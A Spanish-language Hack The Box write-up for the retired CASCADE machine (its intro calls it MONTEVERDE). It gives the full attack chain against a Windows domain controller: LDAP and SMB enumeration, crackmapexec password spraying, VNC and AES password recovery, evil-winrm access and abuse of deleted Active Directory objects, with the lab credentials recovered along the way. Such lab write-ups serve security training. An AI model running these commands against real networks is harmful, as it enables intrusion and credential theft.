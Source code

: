 # CASCADE-HTB

Desarrollo de la VM MONTEVERDE de HACK THE BOX (HTB)

## 1. Configuración de la VM

- La VM se encuentra en estado de retirada de HTB
- Se debe activar la VM para poder usarla, se requiere una suscripción PREMIUM.

## 2. Escaneo de Puertos

```
┌──(root㉿kali)-[~/HT/CASCADE]
└─# cat full.nmap 
# Nmap 7.92 scan initiated Sat Apr  2 16:46:34 2022 as: nmap -n -P0 --top-ports 5000 -sS -sC -vv -oA full 10.129.127.249
Nmap scan report for 10.129.127.249
Host is up, received user-set (0.34s latency).
Scanned at 2022-04-02 16:46:34 EDT for 166s
Not shown: 4985 filtered tcp ports (no-response)
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
49154/tcp open  unknown          syn-ack ttl 127
49155/tcp open  unknown          syn-ack ttl 127
49157/tcp open  unknown          syn-ack ttl 127
49158/tcp open  unknown          syn-ack ttl 127
49173/tcp open  unknown          syn-ack ttl 127

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2022-04-02T20:47:37
|_  start_date: 2022-04-02T20:05:21
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 48762/tcp): CLEAN (Timeout)
|   Check 2 (port 41097/tcp): CLEAN (Timeout)
|   Check 3 (port 35696/udp): CLEAN (Timeout)
|   Check 4 (port 23480/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade1.jpg" width=80% />

## 3. Enumeración

- Podemos enumerar utilizando ENUM4LINUX o AUTORECON.
- Identificamos múltiples usuarios de acceso.

```
┌──(root㉿kali)-[~/HT/CASCADE]
└─# enum4linux -a -M -l -d 10.129.127.249 > enum4linux.txt
```

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade2.jpg" width=80% />

- Enumeramos toda la información que podemos a través de LDAP. Encontramos una contrraseña en BASE64.

```
┌──(root㉿kali)-[~/HT/CASCADE]
└─# ldapsearch -x -b "dc=cascade,dc=local" -h 10.129.127.249 > ldapsearch.txt
```

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade3.jpg" width=80% />

- El decode del password es: rY4n5eva

## 4. Explotación

### 4.1. Cracking ONLINE

- Con la contraseña de obtuvimos realizamos cracking. Nuevas credenciales: r.thompson:rY4n5eva

```
┌──(root㉿kali)-[~/HT/CASCADE]
└─# crackmapexec smb 10.129.127.249 -u users.txt -p 'rY4n5eva' --shares --pass-pol --continue-on-success
```

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade4.jpg" width=80% />

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade5.jpg" width=80% />


### 4.2. Accedemos a la carpeta DATA

```
┌──(root㉿kali)-[~/HT/CASCADE]
└─# smbclient \\\\10.129.127.249\\Data\\ -U 'r.thompson' 
```

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade6.jpg" width=80% />


- En la carpeta encontramos un archivo log de VNC

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade7.jpg" width=80% />

- El procedimiento para crackear el password de VNC es conocido: https://github.com/jeroennijhof/vncpwd

- Primero debemos pasar de HEXADECIMAL a BASE64. 

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade8.jpg" width=80% />

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade9.jpg" width=80% />

- Tenemos una nueva contraseña: sT333ve2

### 4.3. CRACKING ONLINE (2)

- Con la contraseña de obtuvimos realizamos cracking. Obtenemos credenciales s.smith:sT333ve2

```
┌──(root㉿kali)-[~/HT/CASCADE]
└─# crackmapexec smb 10.129.127.249 -u users.txt -p 'sT333ve2' --shares --pass-pol 
```

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade10.jpg" width=80% />

- Este nuevo usuario tiene acceso a la carpeta AUDIT$

### 4.4. Accedemos a la carpeta AUDIT$

- Accedemos a la carpeta AUDIT$ y descargamos la información

```
┌──(root㉿kali)-[~/HT/CASCADE]
└─# smbclient \\\\10.129.127.249\\Audit$\\ -U 's.smith'  
Enter WORKGROUP\s.smith's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Apr  2 19:22:12 2022
  ..                                  D        0  Sat Apr  2 19:22:12 2022
  CascAudit.exe                      An    13312  Tue Jan 28 16:46:51 2020
  CascCrypto.dll                     An    12288  Wed Jan 29 13:00:20 2020
  DB                                  D        0  Tue Jan 28 16:40:59 2020
  RunAudit.bat                        A       45  Tue Jan 28 18:29:47 2020
  System.Data.SQLite.dll              A   363520  Sun Oct 27 02:38:36 2019
  System.Data.SQLite.EF6.dll          A   186880  Sun Oct 27 02:38:38 2019
  x64                                 D        0  Sun Jan 26 17:25:27 2020
  x86                                 D        0  Sun Jan 26 17:25:27 2020

		6553343 blocks of size 4096. 1625550 blocks available
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade11.jpg" width=80% />

### 4.5. Analizando los archivos SQLITE y Binarios

- Accedemos al archivo AUDIT.DB que está dentro de la carpeta DB. Alli encontramos una contraseña: BQO5l5Kj9MdErXx6Q6AGOw==
- La contraseña parece del tipo BASE64, sin embargo, no están facil porque está encriptado.

```
┌──(root㉿kali)-[~/HT/CASCADE/AUDIT/DB]
└─# sqlite3 Audit.db                                                                                 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE IF NOT EXISTS "Ldap" (
	"Id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"uname"	TEXT,
	"pwd"	TEXT,
	"domain"	TEXT
);
INSERT INTO Ldap VALUES(1,'ArkSvc','BQO5l5Kj9MdErXx6Q6AGOw==','cascade.local');
CREATE TABLE IF NOT EXISTS "Misc" (
	"Id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"Ext1"	TEXT,
	"Ext2"	TEXT
);
CREATE TABLE IF NOT EXISTS "DeletedUserAudit" (
	"Id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"Username"	TEXT,
	"Name"	TEXT,
	"DistinguishedName"	TEXT
);
INSERT INTO DeletedUserAudit VALUES(6,'test',replace('Test\nDEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d','\n',char(10)),'CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local');
INSERT INTO DeletedUserAudit VALUES(7,'deleted',replace('deleted guy\nDEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef','\n',char(10)),'CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local');
INSERT INTO DeletedUserAudit VALUES(9,'TempAdmin',replace('TempAdmin\nDEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a','\n',char(10)),'CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local');
DELETE FROM sqlite_sequence;
INSERT INTO sqlite_sequence VALUES('Ldap',2);
INSERT INTO sqlite_sequence VALUES('DeletedUserAudit',10);
COMMIT;
```

- Decompilamos los archivos: CascAudit.exe y CascCrypto.dll 

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade12.jpg" width=80% />


- Para decompilarlo use el software: https://www.jetbrains.com/decompiler/. Desde Windows.
- Dentro identificamos que el binario descifra el password encriptado en AES: la KEY y el Vector de inicio (IV).

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade13.jpg" width=80% />

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade14.jpg" width=80% />

- Finalmente, en la siguiente página podemos descifrar la contraseña:https://gchq.github.io/CyberChef/

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade15.jpg" width=80% />

### 4.6. Cracking Online (3)

- Identificamos nuevas credenciales arksvc:w3lc0meFr31nd

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade16.jpg" width=80% />

- Accedemos con WINRM

```
┌──(root㉿kali)-[~/HT/CASCADE]
└─# evil-winrm -i 10.129.127.249 -u arksvc -p 'w3lc0meFr31nd'
```

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade17.jpg" width=80% />


## 5. Elevando Privilegios

### 5.1. Abuse AD RECYCLE group

- Listamos la información borrada del Active Directory (AD)

```
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade18.jpg" width=80% />


- La contraseña está en BASE64: baCT3r1aN00dles

- Encontramos el usuario Administrator con la contraseña: baCT3r1aN00dles

<img src="https://github.com/El-Palomo/CASCADE-HTB/blob/main/Cascade19.jpg" width=80% />














































